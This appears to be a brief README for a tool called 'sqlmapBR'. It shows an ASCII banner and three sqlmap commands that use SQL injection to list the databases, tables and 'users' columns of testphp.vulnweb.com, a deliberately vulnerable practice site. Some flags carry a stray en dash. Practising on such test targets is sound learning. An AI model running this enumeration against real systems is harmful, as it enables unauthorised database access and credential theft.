 # sqlmapBR

++++++++++++++++++++++++++++++++++++++++++
 _______ _______ _____   _______ _______ ______ 
|     __|       |     |_|   |   |   _   |   __ \
|__     |   -  _|       |       |       |    __/
|_______|_______|_______|__|_|__|___|___|___|   
                                                
 ______ ______                                  
|   __ \   __ \                                 
|   __ <      <                                 
|______/___|__|                                 
                                                
 ++++++++++++++++++++++++++++++++++++++++++

                                  


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns



